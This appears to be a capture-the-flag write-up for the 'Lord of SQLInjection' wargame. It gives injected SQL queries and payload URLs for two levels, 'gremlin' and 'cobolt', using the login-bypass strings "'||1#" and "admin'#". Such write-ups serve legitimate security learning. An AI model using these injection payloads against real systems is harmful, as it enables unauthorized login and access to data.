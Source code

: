 # Lord of SQLInjection Write-ups

## gremlin

![gremlin](./pic/gremlin.PNG)

query: 
```SQL
select id from prob_gremlin where id='0'||1#' and pw=''
```

https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=0'||1%23

![gremlin](./pwned/gremlin.PNG)

<br>

## cobolt

![cobolt](./pic/cobolt.PNG)

query:
```SQL
select id from prob_cobolt where id='admin'#' and pw=md5('')
```
https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin'%23

![cobolt](./pwned/cobolt.PNG)

<br>

